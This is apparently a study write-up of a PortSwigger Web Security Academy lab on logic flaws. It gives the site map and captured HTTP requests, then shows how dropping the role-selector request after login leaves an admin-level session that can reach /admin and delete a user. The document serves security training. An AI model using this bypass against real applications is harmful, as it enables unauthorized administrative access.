 # [Lab 8: Authentication bypass via flawed state machine](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-flawed-state-machine)

---

## Description

This lab makes flawed assumptions about the sequence of events in the login process. To solve the lab, exploit this flaw to bypass the lab's authentication, access the admin interface, and delete Carlos.

You can log in to your own account using the following credentials: `wiener:peter`

---

## Solution

### Site Map

- `/`
	- Home page with product links
- `/product?productId=$PRODUCT_ID`
	- Product page
- `/login`
	- `GET`
		- Login form
	- `POST`
		- [Submit login form](08%20-%20Authentication%20bypass%20via%20flawed%20state%20machine.md#^55eef8)
		- Upon successful authentication, redirects to `/role-selector`
- `/my-account`
	- When unauthenticated, redirects to `/login`
	- When authenticated, allows current user to update email address
- `/role-selector`
	- `GET`: Dropdown form for user to select their role
		- Choices: `User` or `Content author`
	- `POST`:
		- Choose role from dropdown
			- [Choosing `User`](08%20-%20Authentication%20bypass%20via%20flawed%20state%20machine.md#^694768)
			- [Choosing `Content author`](08%20-%20Authentication%20bypass%20via%20flawed%20state%20machine.md#^36a140)
		- If authenticated at `/login`, redirects to `/` after choosing arbitrary role
		- If didn't authenticated at `/login`, returns a 400 with body `No login credentials provided`
- `/admin`
	- Administrative interface

### Login Process

Login request:

```http
POST /login HTTP/1.1
Host: ac2d1f401fe17f6780d19587000b007a.web-security-academy.net
Cookie: session=AeVmb0rhIyUdj4ma4GTvObl1fJb3FvFI
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://ac2d1f401fe17f6780d19587000b007a.web-security-academy.net
Dnt: 1
Referer: https://ac2d1f401fe17f6780d19587000b007a.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=y86dFfTV4dgoueayaA8JDwS2oWvv5dP5&username=wiener&password=peter
```

^55eef8

Upon successful authentication, server grants `session` cookie and redirects to `/role-selector`.

![](images/Pasted%20image%2020210828225642.png)

Interestingly, the application's response to `GET /role-selector` changes the value of `session` cookie again.

Selecting `User` role request:

```http
POST /role-selector HTTP/1.1
Host: ac2d1f401fe17f6780d19587000b007a.web-security-academy.net
Cookie: session=53GTJrF7P0C4lDbXgrlTU0ulGjwehamz
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: https://ac2d1f401fe17f6780d19587000b007a.web-security-academy.net
Dnt: 1
Referer: https://ac2d1f401fe17f6780d19587000b007a.web-security-academy.net/role-selector
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

role=user&csrf=8zRMIAeYaDeznA0p8Z0b4HAyOLMf7umX
```

^694768

Selecting `Content author`:

```http
POST /role-selector HTTP/1.1
Host: ac2d1f401fe17f6780d19587000b007a.web-security-academy.net
Cookie: session=CCoUjij2b0VWPAdAVAPe2pppJBgsOiyS
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: https://ac2d1f401fe17f6780d19587000b007a.web-security-academy.net
Dnt: 1
Referer: https://ac2d1f401fe17f6780d19587000b007a.web-security-academy.net/role-selector
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

role=content-author&csrf=oqkOb79zqO1w2c6q7aYG6EJVuR7OD21Q
```

^36a140

Upon submission of an arbitrary role (not just `user` or `content-author`), the application redirects to `/` and grants another `session` cookie. With this cookie, the user is authenticated.

### Analysis

So a successful submission to `/login` grants a `session` cookie and redirects to `/role-selector`, which promptly grants another `session` cookie. After a successful submission to `/role-selector`, the application grants another `session` cookie.

Is it possible to skip `/login`? Accessing `/role-selector` without first successfully authenticating to `/login` renders the role selection form, but submitting the form results in the error `No login credentials provided`. This even occurs when attempting to go through `/role-selector` again AFTER going successfully going through `/role-selector`. The application enforces that users go through `/login` first effectively.

So it won't work to skip going through `/login`. Is it possible to skip `/role-selector` and go straight to `/admin` after going through `/login`? The cookie from `/login` should really only be good for successfully getting through `/role-selector`, but perhaps it will grant more access.

Submit the login request with the credentials `wiener:peter`.

```http
POST /login HTTP/1.1
Host: ac2d1f401fe17f6780d19587000b007a.web-security-academy.net
Cookie: session=smgsbrIG1vA0UkWt57BJ07MWVUhk9p95
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://ac2d1f401fe17f6780d19587000b007a.web-security-academy.net
Dnt: 1
Referer: https://ac2d1f401fe17f6780d19587000b007a.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=fTvURdXYkONhrTD64zhNKoifxWXVUzLs&username=wiener&password=peter
```

Drop the subsequent `GET` request to `/role-selector`, which keeps the cookie from the successful submission to `/login`. Navigate to `/admin` to find that the administrative interface is accessible. Delete `carlos`'  account and complete the challenge.

![](images/Pasted%20image%2020210828235015.png)
